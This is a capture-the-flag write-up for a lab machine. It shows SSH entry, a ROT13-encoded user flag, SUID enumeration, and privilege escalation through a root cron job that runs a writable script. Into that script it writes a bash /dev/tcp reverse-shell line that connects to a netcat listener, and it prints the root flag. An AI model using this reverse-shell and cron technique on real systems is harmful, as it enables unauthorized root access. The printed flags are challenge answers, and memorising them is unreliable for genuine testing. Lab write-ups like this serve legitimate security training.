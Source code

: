 1) Entry in the user account:
```
┌──(kali㉿kali)-[~]
└─$ ssh boring@10.10.70.17    -p 6498
The authenticity of host '[10.10.70.17]:6498 ([10.10.70.17]:6498)' can't be established.
ED25519 key fingerprint is SHA256:6XHUSqR7Smm/Z9qPOQEMkXuhmxFm+McHTLbLqKoNL/Q.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '[10.10.70.17]:6498' (ED25519) to the list of known hosts.
*************************************************************************
**        This connection are monitored by government offical          **
**            Please disconnect if you are not authorized              **
** A lawsuit will be filed against you if the law is not followed      **
*************************************************************************
boring@10.10.70.17's password: 
You Have 1 Minute Before AC-130 Starts Firing
XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
!!!!!!!!!!!!!!!!!!I WARN YOU !!!!!!!!!!!!!!!!!!!!
You Have 1 Minute Before AC-130 Starts Firing
XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
!!!!!!!!!!!!!!!!!!I WARN YOU !!!!!!!!!!!!!!!!!!!!
```

2) I take the user flag:
```
boring@kral4-PC:~$ cat user.txt
User Flag But It Seems Wrong Like It`s Rotated Or Something
synt{a0jvgf33zfa0ez4y}
```

3)  In this file call me "Rotate", so I must use rot-13 to find user flag, I use "https://gchq.github.io/CyberChef":
flag{n0wits33msn0rm4l}

4) Now I see the file, that We have the perm. 4000:
```
boring@kral4-PC:/$ find / -perm -4000 2>/dev/null | grep "/bin/"
/usr/bin/sudo
/usr/bin/pkexec
/usr/bin/chfn
/usr/bin/passwd
/usr/bin/gpasswd
/usr/bin/newgrp
/usr/bin/chsh
/usr/bin/traceroute6.iputils
/bin/ping
/bin/mount
/bin/fusermount
/bin/su
/bin/umoun
```

5) I see cronjob:
```
boring@kral4-PC:/usr/bin$   nano  /etc/crontab
```
```
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user  command
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
#
* *    * * *   root    cd /var/www/ && sudo bash .mysecretcronjob.sh
```

5) I discover where is  the file's .mysecretcronjob.sh
```
boring@kral4-PC:/usr/bin$ locate .mysecretcronjob.sh
/var/www/.mysecretcronjob.sh
```

6) Entry in this directory:
```
boring@kral4-PC:/usr/bin$ cd /var/www
```

7) Read the file:
```
boring@kral4-PC:/var/www$ cat .mysecretcronjob.sh
#!/bin/bash
# i will run as root
```

8) Change Privilegies of the file:
```
boring@kral4-PC:/var/www$ chmod a=w+r+x .mysecretcronjob.sh
#!/bin/bash
# i will run as root
```

9) Then write in file this script: nano .mysecretcronjob.sh
```
#!/bin/bash
bash -i >& /dev/tcp/<IP-listener>/<Port-listener> 0>&1
# i will run as root
```

10) I do a listener with netcat in my local machine:
```
┌──(kali㉿kali)-[~]
└─$ nc -lnvp 6666   
listening on [any] 6666 ...
```

11) Execute .mysecretcronjob.sh: ./.mysecretcronjob.sh
12) Find and read root.txt:
```
root@kral4-PC:/var/www# ls
ls
html
root@kral4-PC:/var/www# whoami
whoami
root
root@kral4-PC:/var/www# cd /root
cd /root
root@kral4-PC:~# ls
ls
root@kral4-PC:~# ls -all
ls -all
total 40
drwx------  5 root root 4096 Jun 15  2020 .
drwxr-xr-x 23 root root 4096 Jun 15  2020 ..
-rw-------  1 root root    2 Dec 16 04:32 .bash_history
-rw-r--r--  1 root root 3136 Jun 15  2020 .bashrc
drwx------  2 root root 4096 Jun 13  2020 .cache
drwx------  3 root root 4096 Jun 13  2020 .gnupg
drwxr-xr-x  3 root root 4096 Jun 13  2020 .local
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
-rw-r--r--  1 root root   39 Jun 15  2020 .root.txt
-rw-r--r--  1 root root   66 Jun 14  2020 .selected_editor
root@kral4-PC:~# cat .root.txt
cat .root.txt
flag{63a9f0ea7bb98050796b649e85481845} <--- Root Flag
root@kral4-PC:~# 
```









